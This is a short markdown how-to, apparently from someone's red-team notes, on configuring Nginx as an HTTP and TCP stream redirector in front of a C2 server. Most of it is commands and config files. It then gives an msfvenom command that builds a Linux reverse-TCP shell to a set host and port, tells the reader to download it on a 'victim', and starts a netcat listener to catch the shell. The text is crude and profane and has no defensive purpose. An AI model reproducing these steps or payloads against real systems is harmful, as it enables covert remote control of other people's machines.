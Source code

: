 # Setting up Nginx for TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffig and beacon traffic can sometimes be encrypted by defualt making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lests install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets modify our config file which might no exist 
    ```bash 
    sudo vim /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```nginx
    server {
        listen 80;
        listen [::]:80;

        server_name <serverIP-OR-ServerDNSname>;

        location / {
            proxy_pass http://<parrot-c2-ip>;
        }
    }
    ```
4. Now lets add the TCP rules to allow us to handle the beacons
    ```bash
    sudo vim /etc/nginx/nginx.conf
    ```
5. Paste the following Bellow `http {...}`
    ```nginx
    stream {
        log_format posh '$remote_addr [$time_local] '
        '$protocol $status $bytes_sent $bytes_received '
        '$session_time "$upstream_addr" '
        '"$upstream_bytes_sent" "$upstream_bytes_received" "$upstream_connect_time"';
    
        server {
            listen 8080;

            proxy_pass http://<Parrot-IP>;

            access_log /var/log/nginx/tcp_access.log;
            error_log /var/log/nginx/tcp_error.log;

        }


    }
    ```
5. Now lets reload Nginx with the new conf figles 
    ```bash 
    sudo nginx -s reload
    ```
    or 
    ```bash 
    sudo systemctl restart nginx.service
    ```
6. From here we can now create a msfvenom shell or poshc2 with the correct ports set in the TCP section in the example we have `8080` 
    ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.178.132 LPORT=8080 -a x64 -f elf > yup.elf
    ```
    > **NOTE:** Follow the same setup if you are using poshc2 for you bind port, probably 
7. Host your payload however and download on victim 
8. Now if you are running msfvenom start you `nc` listener to catch your beacon.
    ```bash
    sudo nc -lnvp
    ```
9.  tada you have a beacon shelley, fuck you.
